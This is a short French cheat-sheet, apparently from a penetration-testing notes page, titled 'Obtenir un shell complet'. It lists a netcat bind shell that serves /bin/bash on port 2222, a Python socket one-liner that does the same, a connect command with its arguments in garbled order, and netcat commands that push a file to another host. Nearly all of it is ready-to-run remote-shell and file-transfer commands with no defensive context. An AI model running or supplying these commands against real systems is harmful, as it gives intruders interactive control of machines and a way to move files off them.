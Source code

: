 <h2>Obtenir un shell complet</h2>
<ul>Ouvrent un shell sur le port 2222 :
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port

Envoi fichier :
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
